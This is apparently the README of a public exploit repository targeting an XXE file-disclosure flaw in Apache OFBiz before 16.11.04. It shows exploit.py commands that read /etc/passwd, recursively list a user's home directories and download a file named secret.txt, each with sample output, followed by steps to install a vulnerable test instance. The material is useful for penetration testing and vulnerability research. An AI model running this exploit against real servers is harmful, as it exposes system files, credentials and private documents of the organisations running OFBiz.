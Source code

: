 # Apache OFBiz XXE
XXE injection (file disclosure) exploit for Apache OFBiz &lt; 16.11.04

## Information
Apache OFBiz, before version 16.11.04, contains two distinct XXE injection vulnerabilities. The public disclosures for each vulnerability can be found below:

* [1] https://seclists.org/oss-sec/2018/q4/12
* [2] https://seclists.org/oss-sec/2018/q4/13

This exploit targets the vulnerability disclosed in link 1. Although this vulnerability was not assigned a CVE (the root cause lies in an outdated library), it is easier to exploit than the vulnerability disclosed in link 2 (CVE-2018-8033), which requires hosting an external DTD that the vulnerable server must reference in each request.

## Usage
### Display a single file
```
$ python exploit.py -u https://localhost:8443 -f /etc/passwd
```
### Crawl through directories
```
$ python exploit.py -u https://localhost:8443 -c /home/bob

[*] DIR: /home/bob
[*] DIR: /home/bob/docs
[*] FILE: /home/bob/docs/proposal.docx
[*] DIR: /home/bob/stuff
[*] DIR: /home/bob/stuff/more-stuff
[*] FILE: /home/bob/stuff/more-stuff/file2.txt
[*] FILE: /home/bob/stuff/more-stuff/secret.txt
[*] FILE: /home/bob/stuff/file3.txt
[*] FILE: /home/bob/file.txt
```
### Download a single file
```
$ python exploit.py -u https://localhost:8443 -f /home/bob/stuff/more-stuff/secret.txt -o ~/local/
$ ls ~/local/
home--bob--stuff--more-stuff--secret.txt
```

## OFBiz setup
Follow the steps below to setup OFBiz 16.11.04 in order to test this exploit. This was performed on Ubuntu.
```
$ sudo add-apt-repository ppa:webupd8team/java
$ sudo apt install oracle-java8-installer 
$ sudo update-alternatives --config java

$ wget https://archive.apache.org/dist/ofbiz/apache-ofbiz-16.11.04.zip
$ unzip apache-ofbiz-16.11.04.zip
$ cd apache-ofbiz-16.11.04/

$ ./gradlew cleanAll loadDefault
$ ./gradlew ofbiz
```
Browse to https://\<ip\>:8443/ordermgr/control/main to make sure the installation was successful
